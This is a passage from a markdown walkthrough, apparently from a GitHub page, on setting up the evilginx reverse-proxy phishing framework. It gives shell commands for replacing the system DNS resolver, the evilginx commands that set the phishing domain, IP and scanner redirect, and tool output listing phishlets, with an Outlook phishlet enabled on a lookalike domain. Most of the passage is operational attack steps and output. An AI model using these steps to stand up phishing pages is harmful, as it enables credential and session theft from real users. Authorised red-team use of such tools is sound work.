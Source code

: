 			```bash
			$ systemctl disable systemd-resolved
			$ systemctl stop systemd-resolved
			$ rm /etc/resolv.conf
			$ echo 'nameserver 8.8.8.8' > /etc/resolv.conf
			```
1. Configure Phishing Page
	1. Set the domain and IP of the evilginx server
		* Note
			* `redirect_url` is where unauthorized requests (e.g. web scanners) are redirected
		* Command

			``bash
			: config domain evilginx.phishingdomain.com
			: config ip <public_ip>
			: config redirect_url https://www.foxnews.com/
			```

	1. **Type `config` at any time to view the configuration**

		```
		: config

		             domain : evilginx.phishingdomain.com
		                 ip : 1.2.3.4
		       redirect_key : md
		   verification_key : is
		 verification_token : 3b0a
		       redirect_url : https://www.foxnews.com/
		:
		```
	1. **Type `phishlets` to view available phishing modules and their status**
		
		```
		: phishlets
		+-----------------+--------------+-----------+------------+---------------------------------+                                                                         
		|    phishlet     |   author     |  active   |  status    |             hostname            |                                                                         
		+-----------------+--------------+-----------+------------+---------------------------------+                                                                         
		| facebook        | @mrgretzky   | disabled  | available  |                                 |                                                                         
		| linkedin        | @mrgretzky   | disabled  | available  |                                 |
		| outlook         | @mrgretzky   | enabled   | available  | outlook.com.phishingdomain.com  |
		| reddit          | @customsync  | disabled  | available  |                                 |
		| twitter-mobile  | @white_fi    | disabled  | available  |                                 |
		| twitter         | @white_fi    | disabled  | available  |                                 |
		| amazon          | @customsync  | disabled  | available  |                                 |
		| citrix          | @424f424f    | disabled  | available  |                                 |
		+-----------------+--------------+-----------+------------+---------------------------------+
		```
